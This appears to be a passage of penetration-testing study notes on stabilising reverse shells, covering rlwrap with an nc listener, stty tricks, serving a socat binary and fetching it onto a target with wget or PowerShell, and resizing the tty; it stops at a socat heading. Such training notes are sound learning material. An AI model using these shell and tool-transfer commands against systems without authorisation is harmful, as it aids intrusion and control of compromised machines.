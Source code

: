 ![python](https://i.imgur.com/bQnFz1T.png)

If the shell dies, any input in your own terminal will not be visible (result of having disabled terminal echo). Type `reset` and enter to fix this.

##### rlwrap

rlwrap is a program gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. However, some manual stabilization must still be utilized to use CTRL+C inside the shell. rlwrap is not installed by default on Kali and can be installed with: `sudo apt install rlwrap`.

To use rlwrap listener: `rlwrap nc -lvnp <PORT>`

- 'rlwrap' provides a much more fully featured shell. This technique is useful with Windows shells which are difficult to stabilize.
  - With Linux target, it is possible to completely stabilize with the same trick before: background the shell with CTRL+Z, then use `stty raw -echo; fg` to stabilize and re-enter the shell.

##### Socat Stable

The third easy way to stabilize a shell is initialize a netcat shell as a stepping stone to a full featured socat shell. This technique is limited to Linux targets, as Socat shells on Windows will be no more stable than a netcat shell.

1. First transfer a socat static compiled binary (a version of the program compiled to have no dependencies) to the target machine. A common way to achieve this would be use web server on the attacking machine inside the directory containing socat binary (`sudo python3 -m http.server 80`).
2. On the target machine, use the netcat shell to download the file with `wget <LOCAL-IP>/socat -O /tmp/socat` for Linux. On Windows machine CLI environment with Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

##### Change Terminal tty Size

Must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

1. Open another terminal and run `stty -a`. This will give a large stream of output.
2. In the reverse/bind shell, type `stty rows <number>` and `stty cols <number>`.
3. Input the numbers returned from running the command in own terminal. This will change the width and height of the terminal to allow programs such as text editors do display information to be accurate and correctly open.

### Socat

Like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. However, the two big catches are:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is rarely installed by default.


Both Socat and Netcat have .exe versions for use on Windows.

#### Socat Reverse Shells

